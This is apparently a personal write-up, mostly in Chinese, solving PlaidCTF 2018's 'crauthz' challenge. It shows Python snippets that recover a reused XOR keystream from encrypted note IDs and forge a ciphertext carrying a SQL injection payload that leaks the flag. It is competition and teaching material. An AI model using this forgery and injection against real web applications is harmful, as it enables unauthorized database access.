




# PlaidCTF 2018 - Notes

## idIoT: Camera
[ctftime_writeup](https://ctftime.org/task/6077)


## crauthz
> Description:
>
> These web developers didn't want to worry too much about input validation - so they applied crypto to the problem. 

[ctftime_writeup](https://ctftime.org/task/6074)
[參考這篇_照做紀錄](https://whit3hat.com/)

根據敘述，知道是 crypto + web


打開網頁


之後註冊和登入


可以看到有兩個功能:
1. 新增筆記
2. 看目前的筆記

用 editthiscookie 可以看到有 4 個 cookie



全部的資料為:
```
csrf_token: 2b70cd4ad0ba48b2a1942d9ae8c63909

js_csrf_token: 2b70cd4ad0ba48b2a1942d9ae8c63909

sess_data: eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9

sess_sig: fb0525accf86d50c4e9f7d9288d49dadb719f988157484af64280993b5b8bed7
```

其中，sess_data 是 base64 encode ，可以 decode 看一下
```python
In [4]: b64d('eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9')
Out[4]: '{"expires": 1528525409, "uid": 2377}'
```

而其有簽證: sess_sig


新增一個筆記，用 fiddler 看一下
Request:

```
POST https://crauthz.chal.pwning.xxx/api/make_note HTTP/1.1
Host: crauthz.chal.pwning.xxx
Connection: keep-alive
Content-Length: 79
Accept: application/json, text/javascript, */*; q=0.01
Origin: https://crauthz.chal.pwning.xxx
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://crauthz.chal.pwning.xxx/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: sess_data=eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9; sess_sig=fb0525accf86d50c4e9f7d9288d49dadb719f988157484af64280993b5b8bed7; csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909; js_csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909

title=titleXD&contents=ContentsXDDD&csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909
```

而 Response

```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Thu, 10 May 2018 06:58:47 GMT
Content-Type: application/json
Content-Length: 99
Connection: keep-alive
Content-Security-Policy: script-src 'nonce-19128bac4b'; style-src https://maxcdn.bootstrapcdn.com/ 'nonce-19128bac4b'

{"id": "p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=", "result": "success", "title": "titleXD"}
```

把 id 拿去 base64 decode ，看起來應該是加密過的密文，或許這裡就是題目說的 input validation
```
In [5]: b64d("p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=")
Out[5]: '\xa7\xdc)F\xd1\xeb\x86\xb7o\xf4\x18\xe7\xc4D\xdcw\xb4\x80\x8e\xf4\x9a\xf4\xe7\xa8\xe3\xc4\xe6\xa32g\r~\xdb\x04+'
```

再重新新增一個筆記，但給超大的內容，看 id 的變化


看一下得到的 id 
```
第一次得到的 id: p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=

第二次得到的 id: p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBSs=
```

發現基本沒變化，只有最後第三個字元不同


這裡重新註冊一個帳號並登入，故意使帳號名稱很長


帳號名稱: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

新增一個筆記，title = gg , content = test，發現得到的 id 很長

```
{"id": "p9wpRtHrhrdv9BjnxETcZbqNlrfXtaSn68Gl-HM3XC2DUTd4cZrWQ5L19CmnYHJUAE4CyZGCygicHSc_4YfvQ6xsP0A6x2n3mTGqcSVCfR1nqlhF9Av7l3dKwtCXm6wjFpRHOEJE3ADtWFhv5B7tF0xwu-HoQfU-irtmQI8PETDgAdrQx89Ot-QMllgJ8EI0KttjK6Wdp3r_uTg_xLFQcbVUtRjqx78gnkNXGMF_DkE=", "result": "success", "title": "gg"}
```

所以這代表這串密文裡面，一定有某部分是 username


這裡把 id 的 base64 encode 中的 - 改成 + ，和 _ 改成 /


可以嘗試一下:
```
from pwn import *

s1 = "p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs="
s2 = "p9wpRtHrhrdv9BjnxETcZbqNlrfXtaSn68Gl-HM3XC2DUTd4cZrWQ5L19CmnYHJUAE4CyZGCygicHSc_4YfvQ6xsP0A6x2n3mTGqcSVCfR1nqlhF9Av7l3dKwtCXm6wjFpRHOEJE3ADtWFhv5B7tF0xwu-HoQfU-irtmQI8PETDgAdrQx89Ot-QMllgJ8EI0KttjK6Wdp3r_uTg_xLFQcbVUtRjqx78gnkNXGMF_DkE="

s2_name = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

s1 = b64d(s1)
s2 = b64d(s2.replace('-', '+').replace('_', '/'))

key = xor(s2, s2_name)
print xor(s1, key)
```

我們可以得到 `aaaaaaaaaaaaaaasoly", "nid": 10294}`


這裡可以知道最前面 15 bytes 無法解密 ("aaaaaaaaaaaaaaa")


這裡在 nid 嘗試 sql injection ，在 nid 構造: `'aaaaaaaaaaaaaaasoly", "nid": "1\u0027 or 2=2 limit 1#"}'`

```python
from pwn import *
a = 'aaaaaaaaaaaaaaasoly", "nid": "1\u0027 or 2=2 limit 1#"}'
a = xor(a, key)[:len(a)] # key 是剛剛算出的
a = b64e(a).replace('+', '-').replace('/', '_').replace('=', '%3d')

# print a
# YWFhYWFhYWFhYWFhYWFhc29seSIsICJuaWQiOiAiMVx1MDAyNyBvciAyPTIgbGltaXQgMSMifQ%3d%3d
# \u0027 = '

```


這裡再用 soly 登入後，點任何一個已經新增的 note，改 request 的 nid 為上面的 a 的值，可以得到:
```
{"result": "success", "contents": "PCTF{ok_but_maybe_it_would_have_worked_with_better_crypto}", "title": "Flag"}
```

